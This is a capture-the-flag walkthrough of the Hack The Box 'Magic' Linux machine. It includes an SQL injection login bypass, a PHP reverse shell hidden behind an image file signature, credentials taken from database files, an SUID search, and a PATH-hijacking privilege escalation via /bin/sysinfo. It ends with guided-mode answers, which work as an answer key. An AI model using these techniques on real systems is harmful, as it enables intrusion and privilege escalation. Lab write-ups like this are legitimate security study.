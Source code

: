 ## Magic -Linux Machine

- [+] : Target IP 
	>> 10.10.10.185
### Adventure Mode

## Recon
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

## Foothold

- [+] : Sql injection in login ' OR 1=1 -- 

- [+] : Trying to upload a php revshell for now , cant bypass png with .php.png for some reason
      >>https://rcenetsec.com/hide-malicious-shell-in-image-file/

- [+] : uploading files lists them in in /images/uploads/
## Uploading file 
- [+] : good source of list of file signatures -> https://en.wikipedia.org/wiki/List_of_file_signatures
      >>474946383761 
- [+] : hexedit is a good tool to play with hexadecimals 
      >>make sure to leave so 8 lines , for the 8 octet that u gonna add so that the file signature counts and the <?php doesnt get deleted 

## User www-data recon
- [+] : netstat -aop 
localhost:mysql

- [+] : found db.php5
```php
	class Database
	{
	    private static $dbName = 'Magic' ;
	    private static $dbHost = 'localhost' ;
	    private static $dbUsername = 'theseus';
	    private static $dbUserPassword = 'iamkingtheseus';
	}
```

- [+] : mysql doesnt work , can chisel the port but i prefered not to and check for more

      >>find / -name "*mysql*" 2>/dev/null  shows mysqldump 
      >>mysqldump --all-databases -u 'theseus' -p 
      >>Th3s3usW4sK1ng
      
## User theseus

      >>sudo /usr/sbin/pppd connect $PWD/id.sh
      >>[sudo] password for theseus: 
      >>theseus is not in the sudoers file.  This incident will be reported.

- [+] : find / -perm -4000 -exec -ls -l {} \; 2>/dev/null  [fetches SUID files , stores em in {} and for each line in brackets executes an ls on it ]

/- [+] : bin/sysinfo readable only by me made by root

- [+] : Chatgpt goat here ngl -> strings the /bin/sysinfo shows that there are couple of commands used in sysinfo , cat free fdisk lswh , potential exploit were to execute these commands as root due to suid .

## Path Hijacking 
- [+] : if sysinfo uses relative paths for executing command we are able to exploit this by manipulatin PATH env var

theseus@magic:~/Desktop$ echo '/bin/bash' > /tmp/lshw [Created new script called lshw spawning /bin/bash through sudo]
theseus@magic:~/Desktop$ chmod +x /tmp/lshw
theseus@magic:~/Desktop$ export PATH=/tmp:$PATH [tells path to start fetching from tmp ]
theseus@magic:~/Desktop$ /bin/sysinfo

- [+] : And we root !
      >>for some reason cant see output for results , just bash revshell again 

## Guided Mode
- [+] : How many open TCP ports are listening on Magic?
	>> 2

- [+] : What is the relative path of the page on the webserver that a user is redirected to on successfully logging in?
	>> /upload.php

- [+] : The site claims that only three file extensions are allowed to be uploaded. They are jpg, jpeg, and what?
	>> png

- [+] : What is the relative path of the directory that uploaded images are saved in?
	>> /images/uploads

- [+] : Will the Apache directive <FilesMatch ".+\.php"> only match on files ending with .php?
	>> no

- [+] : What user is the webserver running as?
	>> www-data

- [+] : What is the theseus user's password for MySQL?
	>> iamkingtheseus

- [+] : What is the theseus user's password on Magic?
	>> Th3s3usW4sK1ng

- [+] : What is the full path of the binary that is custom to Magic and configured with the SetUID bit on?
	>> /bin/sysinfo

- [+] : What Linux binary is called by sysinfo to get the Hardware Info?
	>> lshw

- [+] : What Bash environment variable can we modify for our current session to change which binary is called by sysinfo? Don't include a leading $.
	>> PATH

